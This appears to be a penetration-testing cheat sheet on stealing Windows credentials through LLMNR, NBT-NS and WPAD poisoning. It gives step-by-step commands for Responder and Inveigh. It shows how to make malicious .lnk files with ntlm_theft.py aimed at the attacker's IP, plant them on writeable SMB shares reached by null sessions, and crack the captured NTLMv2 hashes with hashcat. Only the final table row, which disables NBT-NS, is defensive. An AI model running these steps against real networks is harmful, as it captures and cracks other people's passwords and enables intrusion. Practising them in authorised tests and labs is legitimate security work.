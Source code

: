 ## LLMNR (Link-Local Multicast Name Resolution)

## NBT-NS (NetBIOS Name Server)

## WPAD (Web Proxy Auto-Discovery)

### Tools: Responder, Hashcat, ntlm_theft.py, Invoke-Inveigh, Inveighzero https://github.com/Kevin-Robertson/Inveigh

### Github repo: https://github.com/Greenwolf/ntlm_theft

## Steps:

#### 1) sudo responder -I YOUR_INTERFACE

#### 2) Leave it for a bit (average 10 minutes)

#### 3) Offline cracking with hashcat ( hashcat -m 5600 HASHFILE PASSWORDFILE --force )

## NTLM Hash stealing:

#### 1) Connect to SMB ( If you have no credentials, connect via NULL session if it is allowed) smbclient -N \\\\IP_ADDRESS\\

#### 2) Check if you have write access to the share you are connected to.

#### 3) Create the malicious payload

    python3 ntlm_theft.py -g all -s OUR_IP -f FOLDER_NAME 

#### 4) Activate Responder

    sudo responder -I INTERFACE

#### 5) Upload an .lnk file to the writeable share

#### 6) After a few minutes you should have captured the hash of the user that tried to interact with our file

#### 7) Crack with hashcat

    hashcat -m 5600 HASHFILE /usr/share/wordlists/rockyou.txt

### Inveigh (Windows)

    .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6

#### More information:

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `responder -h`                                               | Used to display the usage instructions and various options available in `Responder` from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1`                                | Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`. |
| `(Get-Command Invoke-Inveigh).Parameters`                    | Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`    | Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |
| `.\Inveigh.exe`                                              | Starts the `C#` implementation of `Inveigh` from a Windows-based host. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \|foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host.  |



